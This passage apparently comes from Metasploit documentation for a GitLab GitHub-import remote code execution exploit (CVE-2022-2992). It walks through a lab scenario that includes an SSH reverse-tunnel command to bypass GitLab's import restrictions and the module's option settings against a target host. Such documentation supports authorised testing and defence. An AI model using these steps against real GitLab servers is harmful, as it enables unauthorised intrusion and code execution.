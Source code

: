 ### SRVPORT (required)

The local port to listen on. This is the port to be used when creating the tunnel.

### URIHOST

Host to use in GitHub import URL. On default GitLab instances, this must be either a public (non-RFC1918) IP address or
a hostname that resolves to a public IP address. This option can be used in conjunction with a reverse port-forwarding
service such as SSH or NGROK. **The target GitLab server will connect to this host and eventually receive the payload
through it, so it is important to use a host that is considered to be trustworthy.**

## Scenarios

### Docker container running GitLab 15.3.1

The following example uses the following three hosts:

* 192.168.159.128 -- The target GitLab server
* 192.168.250.134 -- The host on which Metasploit is running
* ext.msflab.local -- An external host on the internet through which the HTTP requests from GitLab to Metasploit are
  tunneled in order to bypass GitLab restrictions.

External to Metasploit, SSH is used to setup a reverse port forward through a host with a public (non-RFC1918) IP
address. This is necessary to bypass Import URL restrictions that are in place by default on GitLab. The port-forward
was configured with `ssh -R 8088:localhost:8088 ext.msflab.local` to forward TCP port 8088 on ext.msflab.local to the
local Metasploit instance. Alternatively, this step could be skipped if Metasploit were running on a host with public IP
address.

If the target GitLab server can not import from the specified URL (for example because the host is a private IP
address), then the module will throw this error:

```
[-] Exploit failed: Msf::Exploit::Remote::HTTP::Gitlab::Error::ImportError Invalid URL: http://192.168.250.134:8088/
```

```
msf6 exploit(multi/http/gitlab_github_import_rce_cve_2022_2992) > options

Module options (exploit/multi/http/gitlab_github_import_rce_cve_2022_2992):

   Name          Current Setting          Required  Description
   ----          ---------------          --------  -----------
   IMPORT_DELAY  5                        yes       Time to wait from the import task before try to trigger the payload
   PASSWORD      Password1!               yes       The password for the specified username
   Proxies                                no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        192.168.159.128          yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT         880                      yes       The target port (TCP)
   SRVHOST       0.0.0.0                  yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT       8088                     yes       The local port to listen on.
   SSL           false                    no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                no        Path to a custom SSL certificate (default is randomly generated)
```